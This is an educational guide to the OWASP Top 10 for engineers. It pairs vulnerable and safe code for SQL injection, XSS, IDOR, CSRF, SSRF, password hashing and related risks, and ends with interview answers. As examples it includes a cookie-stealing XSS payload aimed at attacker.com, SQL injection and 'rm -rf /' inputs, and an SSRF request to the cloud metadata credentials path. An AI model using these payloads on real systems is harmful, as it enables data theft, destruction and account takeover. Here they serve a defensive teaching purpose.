



# OWASP Top 10: XSS, CSRF, SQLi, IDOR, SSRF, broken auth, security misconfiguration

The OWASP Top 10 is the canonical list of the most common and impactful web application security risks. **Senior engineers are expected to recognise each, know the fix, and write code that does not introduce them**. Security is not a separate team's job — it is part of every engineer's responsibility.

The list updates every few years. The 2021 edition is the current reference; the 2025 update is in draft.

## The 10 (2021 edition)

| #   | Name                                     | One-line                                               |
| --- | ---------------------------------------- | ------------------------------------------------------ |
| A01 | Broken Access Control                    | User can do things they shouldn't (IDOR, missing auth) |
| A02 | Cryptographic Failures                   | Weak hashing, plaintext storage, leaked keys           |
| A03 | Injection                                | SQLi, NoSQLi, command injection, LDAP injection        |
| A04 | Insecure Design                          | Missing threat modeling, unsafe defaults               |
| A05 | Security Misconfiguration                | Default passwords, exposed admin panels, debug enabled |
| A06 | Vulnerable & Outdated Components         | Old library versions with known CVEs                   |
| A07 | Identification & Authentication Failures | Weak passwords, broken session, missing MFA            |
| A08 | Software & Data Integrity Failures       | Unsigned updates, untrusted CDN scripts, insecure CI   |
| A09 | Security Logging & Monitoring Failures   | No alerts on attacks; can't detect breach              |
| A10 | Server-Side Request Forgery (SSRF)       | App makes attacker-controlled requests                 |

The high-impact subset that nearly every web app must defend: **XSS, CSRF, SQLi, IDOR, SSRF**. These are the bread-and-butter of bug bounties and real breaches.

## A03 — Injection (SQL injection, the classic)

User input concatenated into a query, attacker breaks out:

```java
// VULNERABLE
String sql = "SELECT * FROM users WHERE id = " + userId;
// userId = "1 OR 1=1" → returns all users
// userId = "1; DROP TABLE users; --" → catastrophic

// SAFE
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
stmt.setLong(1, userId);
```



**Always use parameterised queries.** ORMs (JPA, Hibernate, ActiveRecord) parameterise by default. Native queries with string concat are the danger zone.

NoSQL injection works the same way for Mongo, ElasticSearch, etc. — never trust user input as a query operator.

**Command injection**: same idea but for shell commands. `Runtime.exec("convert " + userFilename)` lets an attacker pass `; rm -rf /` as a filename. Use parameterised process builders, never shell strings.

## XSS — Cross-Site Scripting

User-controlled content rendered as executable HTML/JS in another user's browser.

```html
<!-- VULNERABLE: server interpolates user input into HTML -->
<div>Hello, ${userName}</div>
<!-- userName = "<script>fetch('https://attacker.com?c=' + document.cookie)</script>" -->
```

The attacker's script runs in the victim's session — can read cookies (if not HttpOnly), perform actions as the victim, exfiltrate data.



Three flavours:

- **Stored XSS** — payload in DB, served to all users.
- **Reflected XSS** — payload in URL, sent back in response.
- **DOM-based XSS** — payload manipulates DOM client-side; never touches server.

**Defences (layered)**:

1. **Output encoding** — when interpolating into HTML, escape `<`, `>`, `"`, `'`, `&`. Most templating engines (Thymeleaf, JSX, Handlebars) auto-escape. Don't disable.
2. **Content-Security-Policy (CSP)** header — restricts which scripts can run. `script-src 'self'` blocks inline scripts entirely.
3. **HttpOnly cookies** — JavaScript cannot read them, so even with XSS, session tokens stay safe.
4. **Sanitise rich content** with DOMPurify if you must allow user HTML.
5. **No `dangerouslySetInnerHTML` or `eval`** with user data.

## A01 — Broken Access Control (IDOR)

The user is authenticated but can access objects they shouldn't.

```java
// VULNERABLE — authenticates but doesn't authorise
@GetMapping("/orders/{orderId}")
public Order get(@PathVariable Long orderId) {
    return orderRepo.findById(orderId).orElseThrow();   // any user → any order
}

// SAFE — checks ownership
@GetMapping("/orders/{orderId}")
public Order get(@PathVariable Long orderId, @AuthenticationPrincipal User user) {
    Order order = orderRepo.findById(orderId).orElseThrow();
    if (!order.getOwnerId().equals(user.getId()) && !user.isAdmin()) {
        throw new AccessDeniedException();
    }
    return order;
}
```

IDOR (Insecure Direct Object Reference) is the most common class of access control bug. **Authorisation is not authentication.** A logged-in user is who they claim, but that says nothing about what they can access.

**Mitigations**:

- Check ownership on every endpoint that returns or modifies an object.
- Use opaque IDs (UUIDs, slugs) instead of sequential IDs to make enumeration harder.
- Centralise authorisation logic — Spring Security `@PreAuthorize`, AWS Cedar, OPA. Avoid scattering checks.
- Add tests that one user cannot access another's resources.

## CSRF — Cross-Site Request Forgery

A malicious site tricks a victim's browser into sending a state-changing request to your site. The browser includes the victim's cookies; your server processes the request as legitimate.

```mermaid
sequenceDiagram
    participant Evil as evil.com
    participant Browser
    participant Bank as bank.com
    Evil-->>Browser: HTML with <form action="bank.com/transfer" method="POST">
    Browser->>Bank: POST /transfer (cookies sent automatically by browser)
    Bank->>Bank: Sees logged-in user, processes transfer
    Bank-->>Browser: Done
```



**Defences**:

1. **CSRF tokens** — server issues a per-session unique token; forms include it; server verifies. The attacker can't read the token from another origin.
2. **SameSite cookies** — `SameSite=Lax` (default in modern browsers) prevents cookies from being sent on cross-origin requests by default. Largely solves CSRF for cookie-based auth.
3. **Custom headers** — APIs that require `Authorization: Bearer ...` headers are immune; the browser does not send custom headers cross-origin without CORS preflight, which the server controls.
4. **Re-authenticate for sensitive actions** — confirm-with-password before critical changes.

CSRF only matters for **cookie-based** sessions. Pure JWT-in-Authorization-header APIs are immune.

## A10 — SSRF (Server-Side Request Forgery)

The app makes a request to a URL that the attacker controls, often to internal resources.

```java
// VULNERABLE
@PostMapping("/preview")
public String preview(@RequestParam String url) {
    return restTemplate.getForObject(url, String.class);
}
// Attacker sends url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
// → reads cloud metadata service, exfiltrates IAM credentials
```

The cloud metadata service (`169.254.169.254`) is the canonical SSRF target — it returns IAM credentials usable to take over the entire cloud account.

**Defences**:

- **Allowlist** of permitted destinations rather than denylist.
- **DNS resolution check** — resolve the URL's hostname; reject if it points to private IPs (RFC 1918, link-local, loopback). Re-check after each redirect.
- **Disable redirects** in HTTP clients fetching user-supplied URLs, or follow redirects manually with the same checks.
- **IMDSv2** on AWS — requires session tokens for metadata access, mitigates SSRF.
- **Network segmentation** — the service that fetches user URLs lives in a subnet that cannot reach internal services.

## A02 — Cryptographic Failures

Storing passwords as plaintext, MD5, or SHA-256. Using weak hash for password storage.

```java
// VULNERABLE
String hash = sha256(password);                    // too fast — easy to brute force

// VULNERABLE
String hash = bcrypt(password, 4);                 // cost factor too low

// SAFE
String hash = BCrypt.hashpw(password, BCrypt.gensalt(12));   // ~250ms; or argon2id
```

Password hashes need to be **slow** to defeat brute force. Use bcrypt, scrypt, or argon2id. Not SHA — SHA is for fast hashing of non-secrets.

Other crypto failures:

- Hardcoded keys in source code.
- Self-signed certs in production.
- Sensitive data over HTTP instead of HTTPS.
- Weak ciphers (DES, 3DES, MD5).
- Custom crypto. Don't.

## A05 — Security Misconfiguration

Default credentials. Exposed `.git`. Debug mode in production. Verbose error messages leaking stack traces. Open S3 buckets. Open Elasticsearch on the internet.

**Defences**:

- Hardened baseline images / Helm charts. No defaults shipped.
- Periodic config audits (CIS Benchmarks, AWS Config Rules).
- "Production = no debug, no traces, minimum privilege."
- Scan for exposed services with shodan-style tooling.

## A06 — Vulnerable & Outdated Components

Log4Shell. Heartbleed. Spring4Shell. The dependency you bundled has a known CVE.

**Defences**:

- **Dependency scanning** in CI: Dependabot, Snyk, OWASP Dependency Check, Trivy.
- **SBOM** (Software Bill of Materials) per release.
- **Patch policy**: critical CVEs within 24-72 hours; others on regular cadence.
- **Minimal dependencies** — fewer libraries → fewer CVEs to chase.

## A07 — Authentication failures

- **Weak password policies** — allow `password123`. Use NIST SP 800-63B: min 8 chars, no composition rules, deny lists for breached passwords.
- **No rate limiting** on login → brute force.
- **Session fixation** — server accepts any session ID, including one the attacker provided. Always regenerate session ID on login.
- **No MFA** — high-value accounts compromise easily.
- **Long-lived tokens** without rotation.

## A08 — Software & Data Integrity Failures

- Unsigned auto-update packages.
- Inclusion of third-party JS via untrusted CDN with no SRI (Subresource Integrity).
- CI/CD pipelines with broad write access; supply chain attack surface.

```html
<!-- Subresource Integrity verifies the file hash matches -->
<script
  src="https://cdn.example.com/lib.js"
  integrity="sha384-OLBgp1GsljhM2TJ+sbHjaiH9txEUvgdDTAzHv2P24donTt6/529l+9Ua0vFImLlb"
  crossorigin="anonymous"
></script>
```

## A09 — Security Logging & Monitoring Failures

You can't respond to a breach you don't know about. Average breach detection time: ~200 days.

- Log auth events (success, failure, lockout, MFA challenges).
- Log access to sensitive data (PII, payment info).
- Alert on anomalies (impossible travel, surge from new IP, mass downloads).
- Send logs to SIEM that can correlate (Splunk, ELK, Datadog Security).
- Retain logs long enough for forensics (90 days minimum, often more for compliance).

## Defence in depth



No single layer is enough. Each catches what the others miss.

## Common pitfalls

- **Trusting user input anywhere**. Even authenticated users can be malicious. Always validate on the server.
- **Authorisation only at the URL** but not at the data layer. `/orders/{id}` checks ownership but a GraphQL `orders(filter: {})` query does not. Centralise.
- **Disabling CSRF for "convenience"**. Only safe for stateless APIs that authenticate via Authorization header, not cookies.
- **Storing JWT in localStorage**. Vulnerable to XSS — script can steal token. HttpOnly cookies are safer for browser apps.
- **Generic error messages that leak information**. "Invalid email" vs "Invalid password" lets attackers enumerate accounts. Use generic "Invalid credentials."
- **"It's an internal service, security doesn't matter"**. Lateral movement after one breach uses internal vulnerabilities. Defend in depth.
- **Treating security review as a final-stage gate**. Bake it into design (threat modeling) and ongoing engineering (linters, scanners).

## Interview answers

_Q: What is the difference between authentication and authorisation, and which OWASP item maps to each?_
A: Authentication is "who are you?" — A07 covers failures like weak passwords, broken session, missing MFA. Authorisation is "what are you allowed to do?" — A01 covers failures like missing ownership checks, IDOR, role bypass. Both are critical; A01 is consistently the #1 issue in real bug bounty programs.

_Q: How does CSRF differ from XSS?_
A: XSS injects malicious script into your page that runs with the user's session. CSRF tricks the user's browser into sending requests to your site from another origin. XSS is a vulnerability in _your_ output handling; CSRF is a vulnerability in your reliance on cookie-based auth without CSRF tokens. XSS bypasses CSRF (the script runs same-origin), so XSS is strictly worse.

_Q: How would you protect against SQL injection in legacy code that uses string concatenation?_
A: Refactor to parameterised queries (PreparedStatement, JPA, etc.). For SQL that genuinely needs dynamic structure (column names, sort order), use an allowlist — compare against a fixed set of valid column names; reject anything else. Never let user input become SQL syntax.

_Q: What's the safest way to handle file uploads?_
A: Validate MIME type and file extension on the server (don't trust the client). Re-encode images through a library to strip metadata + payloads. Scan with antivirus. Store outside the webroot. Serve via a separate domain (so a malicious file can't run JavaScript with your origin). Limit size; rate limit uploads.

_Q: Why is SSRF dangerous in cloud environments?_
A: The cloud metadata service (`169.254.169.254`) returns IAM credentials. SSRF lets an attacker fetch them and use them to act as your service. AWS introduced IMDSv2 with session-token requirements specifically to mitigate this — always enforce IMDSv2 if you're on AWS.

_Q: How would you prevent IDOR?_
A: Always check ownership at the data layer, not just at the URL. Use a centralised authorisation library (Spring Security, OPA, Cedar). Add automated tests where one test user attempts to access another user's resources and verify it's rejected. Use opaque IDs (UUIDs) so enumeration is harder.

_Q: What goes in a Content-Security-Policy?_
A: Sources allowed for each resource type. `script-src 'self'` blocks inline scripts and external scripts. `style-src 'self' 'unsafe-inline'` allows inline styles. `connect-src 'self' api.example.com` restricts XHR/fetch destinations. Strong CSP is one of the best defences against XSS — even if attacker injects script, the browser refuses to execute it.

_Q: How do you handle a CVE in a transitive dependency you don't control?_
A: Check if exploitable in your usage — most CVEs require specific calls. If not exploitable, document and pin. If exploitable, override the version with `dependency:tree`-style pinning (Maven `dependencyManagement`, npm `overrides`). If no fix exists, mitigate at runtime (WAF rule, input validation), or replace the dependency.
